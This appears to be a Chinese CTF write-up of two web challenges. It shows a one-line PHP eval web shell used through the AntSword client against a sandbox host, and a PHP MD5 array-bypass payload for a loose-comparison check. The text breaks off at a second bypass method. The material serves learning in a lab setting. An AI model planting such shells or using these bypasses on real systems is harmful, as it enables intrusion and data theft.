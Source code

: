 读代码可知，要求以get方式上传一个名为file的参数，且file参数的值不能包含flag

点击下方的shell，发现链接去了另一个网页，里面写了一行代码：

<?php eval($_REQUEST['ctfhub']);?>

可以看出这是一句话木马，根据提示，在蚁剑连接网站http://challenge-e9fa68cd9ee7a95b.sandbox.ctfhub.com:10800/？file=shell.txt，用密码‘ctfhub’登录，查找文件得到flag

------

### 2.easy MD5

 打开网址得到一段代码：

`<?php` 

 `highlight_file(__FILE__);`

 `include 'flag2.php';`

`if (isset($_GET['name']) && isset($_POST['password'])){`

  `$name = $_GET['name'];`

  `$password = $_POST['password'];`

  `if ($name != $password && md5($name) == md5($password)){`

​    `echo $flag;`

  `}`

  `else {`

​    `echo "wrong!";`

  `}`

`}` 

`else {`

  `echo 'wrong!';`

`}` 

`?>` 

阅读代码可知，要以get方式上传一个参数name，以post方式上传一个参数password

且要求，name不等于password，name的md5值若等于password的md5值 

- 方法一：数组绕过

?name[]=1

Password[]=2

**考点：**

**md5不能加密数组，在加密数组的时候会返回NULL，所以传入的两个数组值不同，但md5值相同**

- 方法二：科学技术法绕过
